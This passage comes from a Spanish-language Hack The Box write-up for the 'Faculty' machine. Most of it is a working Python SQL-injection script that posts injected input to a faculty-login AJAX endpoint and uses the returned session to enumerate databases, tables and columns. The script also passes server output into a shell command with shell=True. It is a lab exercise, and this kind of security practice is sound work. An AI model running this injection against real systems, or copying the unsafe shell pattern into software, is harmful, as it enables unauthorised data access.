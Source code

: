 ```python
        elif args.database and args.table:
            return get_columns(args.table)
        elif args.database:
            return get_tables(args.database)
        elif args.query:
            return get_info(args.query)
    except Exception as e:
        print(e)

# request

def inyection():
    # create session
    s = requests.Session()
    headers = {'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'}
    
    # set option
    inyection = options()

    # inyection
    data = dict(id_no=inyection)
    target = target_url + '/admin/ajax.php?action=login_faculty'
    r = s.post(target, headers=headers, data=data)
    target = target_url + '/index.php'
    r = s.get(target, cookies=r.cookies.get_dict()) 
    content = r.text
    
    # encode b64
    msg_b = content.encode('ascii')
    base64_b = base64.b64encode(msg_b)
    base64_m = base64_b.decode('ascii')
    
    # filter content
    command = f"""echo {base64_m} | base64 -d""" + """ | grep -E "<a" | head -n 1 | awk -F'>' '{print $2}' | awk '{print $1}'"""
    output = subprocess.run(command, shell=True, capture_output=True, text=True)
    print()
    print(output.stdout)
    
    

if __name__ == '__main__':
    inyection()
```

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tool_Faculty/sql_inyection.py)
{: .prompt-info}

Después de enumerar las diversas tablas solo encontramos un **hash** del usuario **Admin** que no podremos crackear, a pesar de eso me gustó el scripting de la inyección a manera de práctica
